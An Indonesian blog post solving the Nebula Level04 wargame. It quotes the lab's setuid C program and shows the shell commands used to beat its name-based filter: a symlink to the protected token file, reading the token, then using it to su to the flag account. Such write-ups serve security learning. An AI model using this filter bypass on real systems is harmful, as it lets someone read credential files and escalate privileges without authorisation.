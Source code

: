 +++
author = "kernel-panic"
categories = ["Security", "Nebula"]
date = "2018-01-17T03:57:03+00:00"
description = "Security Wargames"
featured = "wlRjyW6I_o.jpg"
featuredalt = "Nebula Level04"
featuredpath = "https://images2.imgbox.com/62/c7"
linktitle = ""
title = "Exploit Exercises - Nebula Level04"
type = "post"

+++
{{< url-link "Level04" "https://exploit-exercises.com/nebula/level03/" "target">}} adalah salah satu tantangan favorit bagi saya dari keseluruhan seri yang ada.

Kita disajikan _source code_ untuk level4.c. Saya menyertakan kodenya di bawah ini untuk referensi lebih cepat:

    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>
    #include <fcntl.h>
    
    int main(int argc, char **argv, char **envp)
    {
        char buf[1024];
        int fd, rc;
    
        if(argc == 1) {
            printf("%s [file to read]\n", argv[0]);
            exit(EXIT_FAILURE);
        }
    
        if(strstr(argv[1], "token") != NULL) {
            printf("You may not access '%s'\n", argv[1]);
            exit(EXIT_FAILURE);
        }
    
        fd = open(argv[1], O_RDONLY);
        if(fd == -1) {
            err(EXIT_FAILURE, "Unable to open %s", argv[1]);
        }
    
        rc = read(fd, buf, sizeof(buf));
    
        if(rc == -1) {
            err(EXIT_FAILURE, "Unable to read fd %d", fd);
        }
    
        write(1, buf, rc);
    }

Sekilas saya melihat bahwa masalah ini rumit dan mulai mencari-cari _permission_ dari file, dan lain-lain. Setelah mencoba berkonsentrasi pada _source code_ yang disediakan, saya melihat adanya kesalahan pemrograman yang umum.

Pernyataan kedua jika secara eksplisit menyatakan file yang tidak ingin diakses oleh pemrogram. Karena kode pencocokannya berdasarkan nama kita harus bisa membuat _symbolic link_ untuk menampilkan isi token.

    level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/level04
    level04@nebula:/home/flag04$ ./flag04 /tmp/level04
    06508b5e-8909-4f38-b630-fdb148a848a2
    level04@nebula:/home/flag04$ id
    uid=1005(level04) gid=1005(level04) groups=1005(level04)
    level04@nebula:/home/flag04$ su flag04
    Password:
    sh-4.2$ id
    uid=995(flag04) gid=995(flag04) groups=995(flag04)
    sh-4.2$ getflag
    You have successfully executed getflag on a target account

Dan tadaaa, dengan menghindari filter berbasis nama, kita dapat membaca isi file yang dibatasi.

_Note: saya menggunakan isi token sebagai password untuk su ke akun flag04. Semoga ini membantu!_

<div class="videoyoutube"><div class="video-responsive"><iframe allowfullscreen="1" class="embedded-video-large" src="https://www.youtube.com/embed/K5nuQ5QGYKQ?rel=0"></iframe></div></div>